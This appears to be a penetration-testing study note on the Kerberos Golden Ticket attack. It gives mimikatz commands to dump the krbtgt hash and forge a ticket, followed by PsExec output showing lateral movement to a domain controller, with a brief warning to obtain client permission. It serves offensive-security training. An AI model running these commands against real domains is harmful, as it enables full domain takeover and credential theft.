 # Golden Tickets

Full domain compromise. It is advised to obtain explicit permission from the client before executing this attack due to it's severity

## Explanation

Occurs when we've obtained the NTLM hash of the `krbtgt` account in a domain.

We first need to login to the DC on an administrative account and pull the `krbtgt` hash with `mimikatz`

```
privilege::debug
lsadump::lsa /patch
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

We use the `/patch` parameter to include the `krbtgt` hash in the output of `lsadump::lsa` as it is likely normally hidden due to it's sensitivity.

`kerberos::purge` is also included to avoid conflicting tickets during future command execution.

We can now move laterally in our new command prompt with PsExec

```
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\system32>
```

Note that if we used the IP address of the domain controller instead of the hostname in our PsExec command, we would instead force NTLM authentication and access would still be blocked

```
C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.50.70:
Access is denied.
```
